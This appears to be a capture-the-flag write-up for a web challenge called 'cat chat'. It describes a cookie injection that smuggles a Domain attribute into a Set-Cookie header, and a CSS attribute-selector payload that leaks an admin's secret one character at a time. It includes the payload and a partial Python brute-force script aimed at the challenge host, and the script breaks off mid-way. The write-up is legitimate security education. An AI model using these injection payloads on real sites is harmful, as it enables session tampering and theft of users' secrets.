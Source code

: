 Cookie injection resides here `res.setHeader('Set-Cookie', 'flag=' + arg[1] + '; Path=/; Max-Age=31536000');`.  
Here we can inject `dummy; Domain=mybook.com` and in admins browser client `flag` cookie will be set to new value `dummy` but in `mybook.com`'s context. So the `flag` cookie in challenge application will remain unchained for the admin.  

So now our strategy is completed. According to this below will be our payload skeleton.  

```
/name nill] {background:url(/room/room_id_here/send?name=admin&msg=/secret dummy; Domain=mybook.com);}
span[data-secret^=CTF\{] {background:url(/room/room_id_here/send?name=admin&msg=CTF%7b)} [
```

The above name change, after getting banned will inject this css. First url will force admin to run `/secret` with cookie injection `; Domain=mybook.com`. Admin's secret will be on his web page now. Second url will check if secret start with `CTF{`, if yes then it will force admin to send `CTF{` message in our chat room. Now with all this knowledge we can craft the full brute force payload for this challenge. But let's see if we can automate this character by character `flag` leaking process.  

### Automating Flag Extraction
Here most of the work flows can be automated but `/report` command checks for bots with the help of `grecaptcha`. Well that can also be automated with tools like `selenium` but that will be overkill for this challenge. So below is my partially automated python script.  
Script automates two users. First user's job is to collect the leaking flag character. Second user's job is to inject css payload, get himself banned, re-initiate his session and repeat.  

```python
import requests
import string
import sys

# Setting some globals
room = "1970f4b2-4569-4423-8dc9-19a40e746a67" # unique room id from URL
chars = string.ascii_lowercase + string.ascii_uppercase + string.digits + '_' # characters to brute force flag
url = "https://cat-chat.web.ctfcompetition.com/room/" + room + "/"

found_flag = ""

while '}' not in found_flag:
    # Re-initializing session as user gets banned after leaking flag character
    s1 = requests.Session()
    s2 = requests.Session()

    # Referer is updated to avoid CSRF Protection error
    s1.headers.update({'Referer': 'https://cat-chat.web.ctfcompetition.com/'})
    s2.headers.update({'Referer': 'https://cat-chat.web.ctfcompetition.com/'})

    print("[+] Attacking room: " + url)

    # Generating name payload
    name = "nill ] {background:url(/room/" + room + "/send?name=admin&msg=/secret dummy; Domain=mybook.com);} "
    for x in chars:
        concept = "span[data-secret^=CTF\{" + found_flag + x + "] {background:url(/room/" + room + "/send?name=admin&msg=CTF%7b" + found_flag + x + ");} "
        name += concept

    # Testing sanity
    params = {
            'name': 'nill1',
            'msg': 'Hi'
            }

    r = s1.get(url + "send", params=params)
```